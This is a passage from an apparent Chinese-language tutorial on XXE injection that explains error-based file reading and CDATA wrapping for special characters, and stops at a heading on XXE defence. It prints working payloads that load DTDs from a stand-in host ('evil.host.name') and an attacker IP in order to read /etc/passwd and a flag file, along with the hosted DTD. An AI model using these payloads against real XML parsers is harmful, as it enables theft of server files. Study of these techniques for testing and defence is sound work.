 ```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240616161321.png)

## 有回显读文件的限制

无回显外带的时候遇到下面这种情况无法解决

遇到这些字符的时候需要使用CDATA：

```
'  "   <   >   &
```

CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data），CDATA 部分中的所有内容都会被解析器忽略。CDATA 部分由`<![CDATA[`开始，由`]]>`结束。

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff  SYSTEM "file:///d://flag">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://xx.xx.xx.xx:080/cdata.dtd">
%dtd;
]>
<xml>
<xxe>&all;</xxe>
</xml>
```

```
root@VM-0-6-ubuntu:~/java/xxe# cat cdata.dtd
<!ENTITY all "%start;%stuff;%end;">
```

但是此时对于单独的`&`仍然没办法。

# 防御XXE
